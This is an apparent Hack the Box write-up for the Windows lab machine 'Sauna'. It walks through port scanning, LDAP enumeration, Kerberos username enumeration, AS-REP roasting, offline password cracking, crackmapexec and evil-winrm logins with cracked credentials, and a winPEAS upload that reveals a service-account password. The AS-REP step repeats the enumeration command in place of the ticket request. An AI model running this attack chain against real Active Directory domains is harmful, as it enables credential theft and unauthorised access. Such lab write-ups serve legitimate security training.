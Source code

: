 # Hack the Box - Sauna

```CSS
Machine IP: 10.10.10.175 - Windows
```

Add to DNS
```CSS
10.10.10.175    egotistical-bank.local sauna sauna.egotistical-bank.local
```

## Nmap
### TCP All Ports

```CSS
▶ nmap -Pn -sS -p- 10.10.10.175 -T4 --min-rate 1000 -oN surface.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-15 09:39 IST
Nmap scan report for 10.10.10.175
Host is up (0.18s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49695/tcp open  unknown
49720/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 124.54 seconds
```

### Open TCP Ports Service Version and Default Scripts
```CSS
▶ nmap -sC -sV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49675,49695,49720 10.10.10.175 -oN deep.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-15 09:26 IST
Nmap scan report for 10.10.10.175
Host is up (0.18s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-15 10:56:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49720/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m41s
| smb2-time: 
|   date: 2023-04-15T10:57:10
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.84 seconds
```

![image](https://user-images.githubusercontent.com/83878909/232182021-fe6ce919-1d8e-4fad-acdb-1925137c81bd.png)

---

## HTTP
### Home
![image](https://user-images.githubusercontent.com/83878909/232183100-b0ba710b-a0d0-456f-8428-866108bab641.png)

### Users
![image](https://user-images.githubusercontent.com/83878909/232183269-6ce5ead2-098a-42c1-a77b-99e9b68cce63.png)

```CSS
Fergus Smith
Shuan Coins
Sophie Driver
Bowie Taylor
Hugo Bear
Steven Kerb
```

---

## LDAPSearch
### Base DN (Distinguished Name)
```CSS
▶ ldapsearch -H ldap://10.10.10.175 -x -s base namingcontexts
```
![image](https://user-images.githubusercontent.com/83878909/232185487-95840fae-d92d-4a03-9795-cbddc1511dba.png)

### Subtree Attributes
```CSS
▶ ldapsearch -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' -s sub
```
![image](https://user-images.githubusercontent.com/83878909/232194332-9d8dc461-a687-4416-a6f6-94b4d5b523e9.png)

---

## Kerberos
### Kerberos Authentication Attack
  - Identify valid users.
  - Create a wordlist of potential usernames using the names found earlier.

## Validate Usernames
```CSS
▶ kerbrute userenum --dc 10.10.10.175 -d egotistical-bank.local users.txt
```
![image](https://user-images.githubusercontent.com/83878909/232199517-5274525c-d5f5-4925-b2c9-5fc31b23082f.png)
```CSS
administrator@egotistical-bank.local
fsmith@egotistical-bank.local
```
### AS-REP Roasting
  - Find users who have Kerberos preauthentication disabled and get their TGT.
```CSS
▶ kerbrute userenum --dc 10.10.10.175 -d egotistical-bank.local users.txt
```
![image](https://user-images.githubusercontent.com/83878909/232200855-613b961b-3a89-4a3c-b2ed-6f3fa3aa124f.png)

### Crack TGT
  - Crack the `TGT` obtained for user `fsmith` to get the password.
```CSS
▶ john --format:krb5asrep ticket.hrb5 --wordlist=/usr/share/wordlists/rockyou.txt
```
![image](https://user-images.githubusercontent.com/83878909/232202658-937f7339-41a3-4614-b60f-dc84214e3cda.png)

```CSS
fsmith:Thestrokes23
```

---

## SMB
### Enumerate SMB Shares
  - Enumerate the shares available, which are shared directories or resources that can be accessed.
```CSS
▶ crackmapexec smb 10.10.10.175 -u fsmith -p Thestrokes23 --shares
```
![image](https://user-images.githubusercontent.com/83878909/232202527-9d199655-95f5-451b-9023-eaa07f30e094.png)

---

## WINRM
### Login
  - Check for `Windows Remote Management` login using the found credentials.
```CSS
▶ crackmapexec winrm 10.10.10.175 -u fsmith -p Thestrokes23
```
![image](https://user-images.githubusercontent.com/83878909/232202957-f0300681-06e3-462b-ac69-5d2b4a84df3b.png)

---

### Foothold
  - Login as user `fsmith`.
```CSS
▶ evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```
![image](https://user-images.githubusercontent.com/83878909/232203185-5855b62c-6fcc-4267-878c-f6748b30112d.png)

---

## Privilege Escalation
### WinPEAS
  - Upload `winPEASx64.exe` to "Sauna".
  - Execute
```CSS
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload winPEASx64.exe
```
![image](https://user-images.githubusercontent.com/83878909/232273868-7d59e938-0c19-440a-a3b0-068c1f34254d.png)
![image](https://user-images.githubusercontent.com/83878909/232273829-d93a10a9-96cc-4649-afbc-e29b10572ad1.png)

---

#### WinPEAS Output
![image](https://user-images.githubusercontent.com/83878909/232279612-c3fb9bd3-5ed9-4b76-a656-465bada7137d.png)
  - Credentials: `svc_loanmanager:Moneymakestheworldgoround!`

---

